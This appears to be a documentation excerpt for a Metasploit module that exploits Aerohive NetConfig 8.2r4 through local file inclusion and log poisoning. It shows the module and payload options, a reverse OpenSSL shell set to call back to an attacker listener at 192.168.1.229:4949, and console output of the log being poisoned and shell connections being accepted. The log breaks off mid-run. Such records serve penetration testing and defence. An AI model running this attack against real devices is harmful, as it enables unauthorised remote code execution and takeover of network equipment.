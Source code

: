 ### Aerohive NetConfig 8.2r4 - CMD target - AUTO_CLEAN_LOG true
```
Module options (exploit/unix/webapp/aerohive_netconfig_lfi_log_poison_rce):

   Name            Current Setting  Required  Description
   ----            ---------------  --------  -----------
   AUTO_CLEAN_LOG  true             yes       Automatically clean the /tmp/messages log upon spawning a shell. WARN
                                              ING! This may render the target unexploitable
   Proxies                          no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS          92.168.1.151     yes       The target host(s), see https://github.com/rapid7/metasploit-framewor
                                              k/wiki/Using-Metasploit
   RPORT           443              yes       The target port (TCP)
   SRVHOST         0.0.0.0          yes       The local host or network interface to listen on. This must be an add
                                              ress on the local machine or 0.0.0.0 to listen on all addresses.
   SRVPORT         8080             yes       The local port to listen on.
   SSL             true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                          no        Path to a custom SSL certificate (default is randomly generated)
   TARGETURI       /                yes       The base path to Aerohive NetConfig
   URIPATH                          no        The URI to use for this exploit (default is random)
   VHOST                            no        HTTP server virtual host


Payload options (cmd/unix/reverse_openssl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.229    yes       The listen address (an interface may be specified)
   LPORT  4949             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   CMD


msf exploit(unix/webapp/aerohive_netconfig_lfi_log_poison_rce) > exploit

[*] Started reverse double SSL handler on 192.168.1.229:4949
[*] Running automatic check ("set AutoCheck false" to disable)
[+] The target appears to be vulnerable. The target is Aerohive NetConfig version 8.2r4
[*] Attempting to poison the log at /tmp/messages...
[*] Server responded as expected. Continuing...
[*] Attempting to execute the payload
[!] In case of successful exploitation, the Aerohive NetConfig web application will hang for as long as the spawned shell remains open.
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo VHvH3bgm8VU8O8MN;
[*] Writing to socket A
[*] Writing to socket B
[*] Reading from sockets...
[*] Reading from socket B
[*] B: "VHvH3bgm8VU8O8MN\n"
[*] Matching...
```